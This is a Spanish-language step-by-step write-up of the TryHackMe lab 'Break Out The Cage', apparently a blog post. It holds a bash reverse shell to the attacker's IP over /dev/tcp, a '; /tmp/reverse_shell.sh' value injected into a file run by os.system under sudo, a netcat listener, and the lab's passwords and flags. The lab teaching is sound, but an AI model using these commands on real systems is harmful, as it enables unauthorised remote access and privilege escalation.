







**Solución CTF  -  Break Out The Cage**

**CTF de Try Hack Me, paso a paso con explicación de técnicas de
enumeración, explotación y post-explotación en Linux.**

{width="5.905555555555556in"
height="0.8972222222222223in"}

**La IP objetivo será: 10.201.111.23**

{width="5.905555555555556in"
height="0.81875in"}

Se realizó un escaneo con Nmap utilizando las opciones **-sV** para
identificar versiones de servicios y **-sC** para ejecutar scripts por
defecto. Como resultado, se identificó que el servicio FTP permite
**login anónimo** y cuenta con un archivo "**dad_tasks**" con permisos
de lectura. (Comando: **nmap -sV -sC -p 10.201.111.23**).

{width="5.905555555555556in"
height="3.72036854768154in"}

Se realiza una conexión ftp con el user: anonymous y password:
anonymous.

Comando:

{width="4.11515748031496in"
height="1.8960979877515312in"}

Se descarga el archivo con el comando: "**get dad_tasks**" para
revisarlo.{width="5.905555555555556in"
height="1.9356430446194226in"}

Se verifica que este descargado en el directorio de Kali y se visualiza
con el comando: "**cat dad_tasks**" el contenido que está codificado en
base 64.{width="5.905555555555556in"
height="0.9in"}

Se decodifica con el comando: **cat dad_tasks \| base64 -d**, sin
embargo aparece un texto no
legible.{width="5.905555555555556in"
height="1.0159722222222223in"}

Se utiliza la URL: **<https://www.dcode.fr/vigenere-cipher>** para
decodificarlo, en la parte derecha se copia todo el texto y damos click
en "AUTOMATIC DECRYPTION", en la parte izquierda se visualiza el texto
legible, la cual se muestra la contraseña:
**Mydadisghostrideraintthatcoolnocausehesonfirejokes**
{width="5.905555555555556in"
height="3.2215277777777778in"}

Se prueba el acceso ssh con el usuario: Weston y la contraseña:
**Mydadisghostrideraintthatcoolnocausehesonfirejokes,** el usuario
Weston fue dada en el mismo CTF, la cual se validó que era su
contraseña.

**Comando: ssh <weston@10.201.111.23>**

{width="5.905555555555556in"
height="0.5458333333333333in"}

{width="5.905555555555556in"
height="4.870138888888889in"}

Se ejecuta el comando **sudo -l** para verificar qué comandos o rutas
puede ejecutar el usuario con privilegios de
sudo.{width="5.905555555555556in"
height="0.6888888888888889in"}

Se ejecuta dicha ruta como prueba y solo nos muestra texto: "**AHHHHHHH
THEEEEE BESSSSSSSSSS !!!!!!".**

{width="5.905555555555556in"
height="1.25in"}

Se puede ejecutar el comando como root, pero no se puede editar, no se
puede escalar privilegios por ahí, sin embargo usa wall pero con un
mensaje fijo.

{width="5.905555555555556in"
height="1.1444444444444444in"}

Se verifica que usuarios existen en el sistema: **cage** y **Weston,**
con el comando: **ls /home**

{width="3.7192694663167103in"
height="0.3646347331583552in"}

Se realiza una búsqueda de archivos que le pertenecen al usuario:
**cage**, y se encuentran 2 archivos:
**/opt/.dads_scripts/spread_the_quotes.py**

y **/opt/.dads_scripts/.files/.quotes**, con el comando: **find / -type
f -user cage 2\>/dev/null**

{width="5.905555555555556in"
height="0.6486111111111111in"}

Se revisó el contenido del archivo
"**/opt/.dads_scripts/spread_the_quotes.py**" y se visualiza el texto
"**os.system()**" la cuál es una función de Python que ejecuta comandos
en la terminal del sistema operativo, además el parámetro "**wall**" que
aparece en la ruta **/usr/bin/bees**, comando: **cat
/opt/.dads_scripts/spread_the_quotes.py**

{width="5.905555555555556in"
height="1.525in"}

Se revisó el contenido del archivo
"**/opt/.dads_scripts/.files/.quotes**" y se observa textos legibles,
comando: **cat /opt/.dads_scripts/.files/.quotes**

{width="5.905555555555556in"
height="3.158333333333333in"}

Se observa que se tiene privilegios para leer, modificar, pero no para
ejecutar ese archivo, con el comando: **ls -la
/opt/.dads_scripts/.files/.quotes**

{width="5.905555555555556in"
height="0.5034722222222222in"}

Se crea un archivo de nombre "reverse_shell.sh" dentro de /tmp/:

Comando: **vim /tmp/reverse_shell.sh**, luego se agrega:

**#!/bin/bash**

**/bin/bash -c \"bash -i \>& /dev/tcp/10.201.97.182/4444 0\>&1\",** aqui
va la IP del Kali.

{width="5.594530839895013in"
height="0.9480489938757656in"}

Se da privilegios al archivo creado con el comando: **chmod +x
/tmp/reverse_shell.sh**

{width="5.511185476815398in"
height="0.3854702537182852in"}

Se modifica el contenido del archivo
"**/opt/.dads_scripts/.files/.quotes**" con el comando: **echo \";
/tmp/reverse_shell.sh\" \> /opt/.dads_scripts/.files/.quotes**, luego se
verifica que se realizó el cambio, con el comando: **cat
/opt/.dads_scripts/.files/.quotes**

{width="5.905555555555556in"
height="0.3854166666666667in"}

Se ejecuta el comando: **sudo /usr/bin/bees**, debido a que el script
usa **wall**, con el fin de ejecutar posteriormente el archivo
"**/opt/.dads_scripts/.files/.quotes**" y en este último tiene el script
agregado para reverse_shell.

{width="5.905555555555556in"
height="1.25in"}

En otra terminal, se abre un puerto de escucha en el puerto 4444 usando
Netcat. Comando: **nc -lvnp 4444 y** luego de unos segundos se consigue
el acceso con el usuario **cage**.

{width="5.905555555555556in"
height="0.95625in"}

Se visualizan los archivos que tiene en el directorio actual, comando:
**ls**

{width="3.4171434820647417in"
height="0.8126137357830271in"}

Se revisa el contenido del archivo "**Super**\_**Duper_Checklist**",
comando: **cat Super_Duper_Checklist** y se encuentra el 1er Flag:
**THM{M37AL_0R_P3N_T35T1NG}**

{width="5.905555555555556in"
height="1.1965277777777779in"}

Se dirige a la carpeta "**email_backup**" con el comando: **cd
email_backup**

{width="4.11515748031496in"
height="0.718850612423447in"}

Luego se visualiza que hay 3 correos. Comando: **ls**

{width="4.1672484689413825in"
height="0.9897211286089239in"}

Se visualiza el contenido del correo "**email_3**", con el comando:
**cat email_3,** donde se encuentra el String:
"**haiinspsyanileph**"{width="5.905555555555556in"
height="2.8472222222222223in"}

En la Plataforma de cyberchef: <https://gchq.github.io/CyberChef/>, en
el lado derecho se copia el string y en la parte izquierda se decodifica
desde Vigenere con la palabra clave: **FACE**, la cuál esta última se
repite constantemente. Obteniendo el password "**cageisnotalegend**" del
usuario root.

{width="5.894464129483815in"
height="2.1563527996500436in"}

{width="5.905555555555556in"
height="3.3354166666666667in"}

Se acceder al usuario **root** y se ingresa el password, obteniendo asi
el acceso a root, comando: **su root**

{width="3.6868055555555554in"
height="1.0in"}

Se dirige a la carpeta **/root**, luego se ingresa a la carpeta
"**email_backup**", comandos: **cd /root, ls y cd email_backup**

{width="3.333798118985127in"
height="0.6042508748906387in"}

{width="2.958746719160105in"
height="0.5938331146106737in"}

{width="4.010976596675415in"
height="0.39588910761154855in"}

Dentro se encuentran 2 correo, se visualiza el contenido del correo
"**email_2**", con los comandos: **ls y cat email_2,** donde se
encuentra la 2da Flag: **THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}**

{width="4.063066491688539in"
height="0.5834142607174103in"}

{width="5.905555555555556in"
height="2.0805555555555557in"}

Eso es todo xd, estaré subiendo mas soluciones de CTF en los siguientes
días, comenten si quiere que resuelva un CTF en especifico.
